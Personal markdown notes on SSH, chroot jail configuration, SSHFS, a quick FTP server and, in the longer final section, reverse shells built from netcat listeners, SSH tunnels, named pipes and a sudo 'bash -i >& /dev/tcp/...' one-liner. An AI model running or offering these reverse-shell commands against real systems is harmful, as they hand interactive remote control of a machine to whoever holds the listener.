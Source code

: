 ## SSH

- `-X`  Enables X11 (display) forwarding. (But this allows an attacker to listen to my keystrokes.)
- create a pipe between machines

## SSHD

### chroot jail

I set up the following in `/etc/ssh/sshd_config`
```
Match Group chrootjail
	ChrootDirectory /var/chrootjail/
	PasswordAuthentication no
	AuthorizedKeysFile /var/chrootjail/home/%u/.ssh/authorized_keys
```

To make the jail have an interface, though, I needed to copy `/bin/bash` into the jail and also its dependencies, which are given from `ldd /bin/bash`.

I also had to create the `/var/chrootjail/home` directory and create a user and set his home directory and set his group membership.

## SSHFS

```bash
# Mount a remote directory:
sshfs ${user}@${host}:${path} $mydir
# "path" can be absolute or relative to the user's $HOME
# "user@host" can be an alias from .ssh/config
# "mydir" should be an empty local directory

# Unmount the directory:
fusermount -u $mydir 
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbNTU5NjA3ODU5LC04NDIxMjMzMzgsMTcyMT
I5MDgzMF19
-->

## FTP

```bash
python -m pyftpdlib [--help]
python -m pyftpdlib -w -u <uname> -P <pass>
```

## Reverse Shell
### With SSH tunnels
First, start listening on the server:
```bash
nc -l -k localhost 8889
```
Then on the target machine:
```bash
# Open SSH tunnel
ssh -N -L 8889:localhost:8889 qa -f # local -> remote
# Start shell
sudo bash -c 'bash -i >& /dev/tcp/127.0.0.1/8889 0>&1'
```
### Echo only
```bash
# target terminal A
ssh -N -R 8888:localhost:8888 qa
# target terminal B
nc -l localhost 8888
# bridge server
nc localhost 8888 # Then enter text
```
## Execute only
```bash
# target terminal A
ssh -N -R 8888:localhost:8888 qa
# target terminal B
mkfifo nci
nc -l localhost 8888 >nci
# target terminal C
/bin/bash -i 0<nci
# brige server
nc localhost 8888 # then type commands, whose output appears on target:C
```
## Echo on bridge only
```bash
# target terminal A
ssh -N -L 8889:localhost:8889 qa
# bridge server A
nc -l -k localhost 8889
# target terminal B
nc localhost 8889 # then type text which appears in bridge:A
```
...with a fifo:
```bash
# target terminal A
ssh -N -L 8889:localhost:8889 qa
# target terminal A
mkfifo nco
nc localhost 8889 <nco
# bridge server A
nc -l -k localhost 8889
# target terminal B
echo foo > nco # This only works for the first echo. Why?
```
## Execute and echo back
```bash
# target terminal F
ssh -N -L 8889:localhost:8889 qa
# target terminal A
ssh -N -R 8888:localhost:8888 qa
# target terminal B
mkfifo nci
nc -l -k localhost 8888 >nci
# target terminal C
mkfifo nco
nc localhost 8889 <nco
# target terminal D
/bin/bash -i 0<nci >nco
# bridge server A
nc localhost 8888 # then enter commands, whose output will appear on bridge:B
# bridge server B
nc -l localhost 8889
```
